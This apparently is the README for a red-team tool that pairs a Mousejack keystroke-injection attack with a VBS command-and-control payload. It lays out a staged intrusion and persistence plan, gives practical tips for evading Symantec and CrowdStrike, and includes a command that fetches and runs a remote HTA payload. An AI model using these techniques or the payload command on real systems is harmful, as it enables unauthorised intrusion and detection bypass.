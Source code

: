 # VBShell
Mousejack attack and reverse VBS C2 script.

## Summary
I smashed a keystroke-injection-attack script and reverse VBS C2 client/server together for use during limited on-site enagements. The overall goal was to leverage the Mousejack attack to gain an initial foothold, with minimal attacker interaction, bypassing both CrowdStrike's and Symantec Endpoint Protection's detection capabilities.

For some odd reason, this was sort of based on [jackit](https://github.com/insecurityofthings/jackit), which uses the findings of [Bastille's Mousejack](https://github.com/BastilleResearch/mousejack) research.

## Requirements
Python 3.6+ is required because the updated/fixed SSL functionality is required. Here's a guide by @SeppPenner on building and installing Python 3.7.0 on Raspbian: https://gist.github.com/SeppPenner/6a5a30ebc8f79936fa136c524417761d

If you are considering using their install script, I recommend removing the lines that delete the python source/zip (lines 10-11) and uninstall the dependencies (line 12-14) until you are completely sure the build and install went OK. You will also probably need build-essential some times in the future, so maybe don't run those last lines...

A CrazyRadio dongle with the custom Mousejack firmware is required: https://github.com/BastilleResearch/mousejack

PyUSB (python -m pip install pyusb)

All other external dependencies have been eliminated.

## The Plan
My plan was to:
1. Set up my yagi antenna and Jackit-CrazyRadio-Pi unit in the backseat of my car.
2. Drive up into the engagement's scenic roundabout entrance.
3. Point the antenna at some unsuspecting fools.
4. Inject the first-stage VBS payload into someone's stream (cross fingers for speed).
5. Catch the callback on an external AWS instance.
6. Upload the second-stage VBS payload.
7. Write a copy of an obfuscated second-stage payload (with the new client's correct UUID) to the client.
8. Schedule a task to run said local obfuscated payload every couple of hours.
9. EXIT out of the initial payloads, and wait for the next callback.
10. Create a public share on the first compromised host, sharing the first-stage payload, to speed up additional attacks.
11. ?????
12. PROFIT!!!!!

Of course, I have permission to do all of this during my red-team engagements, so don't be goin around doin anything *illegal*, you hear?

## Findings
The stock Crazyradio PA can't penetrate the target building's exterior - I haven't tried to see how close I can get, but at a distance of about 15 meters from a user I can clearly see using a vulnerable Logitech mouse, the radio seems unable to pick up a signal through the glass walls (walls not specifically designed to interfere with signals). Upon reading numerous posts about interference-based range issues with unshielded NRF24L01 modules, I'm planning on shielding the PCB and filtering the USB power source. 1,000 meters of LOS drone communication should be good for at least 15 meters through glass, right? Update: covered the module in many layers of plastic wrap, followed by tinfoil, to keep the breakaway government, clockwork elves, and extra signals away from the LNA (attempting to ground it on the grounding points). This seems to have significantly improved device detection, identifying my test device from ~20 meters, through my car, garage, house, and two closed doors, though I couldnt be bothered to set up actual tests proving any of this.

The way I design, write, and code these projects is terrible. My second-stage client enables global, dynamic execution, and instead of concentrating on dynamically modifying the global environment, by changing variables and adding functions through this idea of "tasking", I put a ton of time into parsing text on the client's side. You would think that I would know by now that the best solutions require the least static concepts, but I'm dumb. Changes to follow. Also: Using Jackit as a starting point for the Mousejack side of the project was a mistake. I ended up ripping almost everything up to kluge the functionality of the scripts together and automate a sensible attack plan (attacking everything, only once, immediately after channel/HID identification and a successful ping). Both sides still aren't fully integrated, though they exist as one massive blob of differently-formatted spaghetti.

Security products suck. Symantec ate my VBS lunch; Crowdstrike couldn't care less. I originally thought Symantec was doing some runtime dynamic analysis on the calls I was making or how things were done. The first-stage flagged as ISB.Downloader!gen40, when written to disk. Cool. Tried calling the first-stage from a share, I saw it callback and pick up the second-stage, but then Symantec killed it with fire. The download-and-execute logic must be too aparent. Obfuscation did nothing. One answer was an overly complicated PowerShell one-liner, calling Invoke-WebRequest, after applying both certificate and header fixes, to download the first-stage VBS and then execute it on command line; it is a massive payload to type (and sit through). I thought Symantec might even be catching the same logic in the second-stage payload, somehow. Having success with this PS payload made me question all of this, so I added a bit of the second to the first, adding a bullshit regex that captures all of the text and calling Execute on the first resulting submatch. This was, apparently, enough. If one can fix the SSL and header issues between PowerShell and the Python server, one could create a smaller, proxy-aware payload that would be far more effective.

The humans are very aware. In a recent test, only 3 out of ~25 were successfully pwnt, where the second-stage payloads successfully executed tasking (profiling the user and host). In order for a keystroke-injection-attack to be successful, the users need to be actively NOT using their machines, or else they will most likely click out of the command prompt being written to or add additional keystrokes to the carefully formatted payloads. This was the number one reason why these attacks failed, based on visual surveillance. The second most likely reason for failure is locked screens. In these cases, the duck payloads actually resulted in numerous AD account lockouts because the keystrokes end up in the password feild and the enter button is pressed numerous times. Beyond that, almost every one of those ~25 people complained about a strange command prompt popup and one even gave me the finger. The 3 successes took place between a trio of people talking to each other, instead of working on their computers. Injection takes too long, though I guess I only need one successful deployment to then create an internal network share I can put more first-stage VBS payloads on. The attack would then be as quick as typing the path to the remotely shared resource in the run prompt.

Practically, not much can be done to stop this attack beyond ditching the vulnerable devices. I wanted to attack each device, only once, immediately after verifying its current channel. This would result in the most accurate and successful attacks, while respecting the target users' integrity; everyone's working and I don't want to overwhelmingly interefere with their day. That being said, I could also just sit there and attack a device until I wear down the user enough for a successful execution. They can't really stop it, beyond locking their machines, disconnecting the devices, and walking away - creating a DoS of a different type; good luck finding me.

Creating a share requires Admin privliges, so I guess that's not an option. Next idea for faster exploitation: use an HTA pre-stage that writes the first-stage payload to disk and executes it. The duck script should then be a quick Win+R and "mshta http://<host>/payload.hta".

## TODO
Add logic for the pre-stage HTA attack (would be much faster and less noticeable).
